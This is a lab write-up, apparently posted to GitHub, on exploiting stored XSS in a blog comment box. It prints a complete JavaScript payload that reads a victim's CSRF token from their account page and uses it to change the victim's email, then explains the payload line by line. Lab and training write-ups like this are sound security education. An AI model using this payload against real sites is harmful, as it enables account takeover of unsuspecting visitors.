 This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to steal a CSRF token, which you can then use to change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: `wiener:peter`  
<br/>**1- Notice there is a CSRF token and a parameter email when changing the email in your account**  

<img width="1714" height="812" alt="image" src="https://github.com/user-attachments/assets/62615962-8433-4189-8c69-bf451d29b06a" />

<br/>**2- We are going to leave our stored XSS payload in the comment box**  

<img width="1714" height="908" alt="image" src="https://github.com/user-attachments/assets/4377a426-f57e-4b16-8371-7fbddfe45ccb" />

<br/>**3- This is the payload, with it we are going to steal the csrf token from other user that visits the page**  
<br/>`<script> var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send(); function handleResponse() { var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com') }; </script>`  
<br/>**4- What the payload does:**  
<br/>Here’s what that payload is doing, line by line, and why it works in the Burp lab.

`<script>var req = new XMLHttpRequest();req.onload = handleResponse;req.open('get','/my-account',true);req.send();`

- A **stored XSS** executes this JS in the victim’s browser.
    
- It creates an XHR (`req`) to **GET `/my-account`** (same origin as the blog).
    
- Because it’s same-origin, the browser **automatically sends the victim’s cookies** (session, etc.) and **lets the script read the HTML response**.
    
- `onload` calls `handleResponse` after the page returns.
    

  
<br/>

`function handleResponse() {`  
    `    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];`  
`this.responseText is the full HTML of /my-account.`

It uses a regex to find a CSRF token sitting in a hidden input:

- name="csrf" value="(\\w+)" captures the token into group 1.

&nbsp;\\w+ matches letters/digits/underscore; works for many tokens (e.g., hex). If the token contained - or = etc., this would fail.  
<br/><br/>`var changeReq = new XMLHttpRequest();`  
    `    changeReq.open('post', '/my-account/change-email', true);`  
    `    changeReq.send('csrf='+token+'&email=test@test.com')`  
`};`  
`</script>`  
With the token in hand, it builds a second request that performs a state-changing action (change email).

- It replays the CSRF token in the POST body so server-side CSRF defenses pass.
- Cookies again go automatically, so the action is done as the victim.

&nbsp;
